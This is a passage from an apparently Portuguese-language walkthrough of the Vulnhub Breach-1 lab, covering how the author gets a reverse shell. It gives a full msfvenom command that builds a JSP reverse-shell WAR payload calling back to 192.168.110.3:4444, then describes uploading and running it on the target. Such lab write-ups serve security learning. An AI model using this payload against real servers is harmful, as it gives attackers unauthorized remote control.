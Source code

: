 
# Shell Reverso

* Tentamos acessar aquela pagina que encontramos no pcap para executar comando via URL, mas nao conseguimos nada


* Entao vamos upar um arquivo war para conseguirmos o shell reverso

![](/assets/img/Vulnhub/Breach-1/shell-reverso-1.png)


## MSFVENOM

* Vamos criar o nosso payload com o programa **msfvenom**...

```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=192.168.110.3 LPORT=4444 -f war > charlie.war
```

![](/assets/img/Vulnhub/Breach-1/msfvenom.png)


## Upload do Payload

* Vamos upar o nosso payload para o servidor

![](/assets/img/Vulnhub/Breach-1/shel-reverso-upload.png)



* Agora executamos o arquivo que acabamos de subir para o servidor. Mas antes tem que lembara de deixar a porta escutando na kali
